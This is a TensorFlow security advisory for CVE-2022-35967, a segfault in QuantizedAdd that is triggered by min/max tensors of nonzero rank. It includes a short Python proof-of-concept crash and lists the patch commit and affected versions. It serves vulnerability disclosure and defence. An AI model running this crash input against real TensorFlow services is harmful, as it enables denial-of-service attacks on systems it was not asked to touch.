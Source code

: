 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-099.md
## TFSA-2022-099: Segfault in `QuantizedAdd`

### CVE Number
CVE-2022-35967

### Impact
If `QuantizedAdd` is given `min_input` or `max_input` tensors of a nonzero rank, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf

Toutput = tf.qint32
x = tf.constant(140, shape=[1], dtype=tf.quint8)
y = tf.constant(26, shape=[10], dtype=tf.quint8)
min_x = tf.constant([], shape=[0], dtype=tf.float32)
max_x = tf.constant(0, shape=[], dtype=tf.float32)
min_y = tf.constant(0, shape=[], dtype=tf.float32)
max_y = tf.constant(0, shape=[], dtype=tf.float32)
tf.raw_ops.QuantizedAdd(x=x, y=y, min_x=min_x, max_x=max_x, min_y=min_y, max_y=max_y, Toutput=Toutput)
```

### Patches
We have patched the issue in GitHub commit [49b3824d83af706df0ad07e4e677d88659756d89](https://github.com/tensorflow/tensorflow/commit/49b3824d83af706df0ad07e4e677d88659756d89).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Neophytos Christou, Secure Systems Labs, Brown University.
